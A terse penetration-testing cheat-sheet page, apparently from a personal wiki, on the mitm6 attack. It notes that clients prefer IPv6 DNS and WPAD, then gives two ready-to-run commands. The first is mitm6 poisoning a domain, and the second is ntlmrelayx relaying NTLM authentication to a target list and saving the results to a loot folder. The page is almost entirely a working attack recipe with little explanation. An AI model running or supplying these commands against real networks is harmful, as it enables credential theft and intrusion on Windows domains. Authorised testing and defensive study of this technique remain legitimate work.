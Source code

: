 <!-- TITLE: Mitm 6 -->
<!-- SUBTITLE: A quick summary of Mitm 6 -->

Clients prioritize IPv6 over IPv4, they take IPv6 DNS as well, may do wpad after that.
# How to Run
```
mitm6 -d domainfqdn

python ntlmrelayx.py -6 -wh blah.domain.com -tf hostnames.txt -l loot/
```

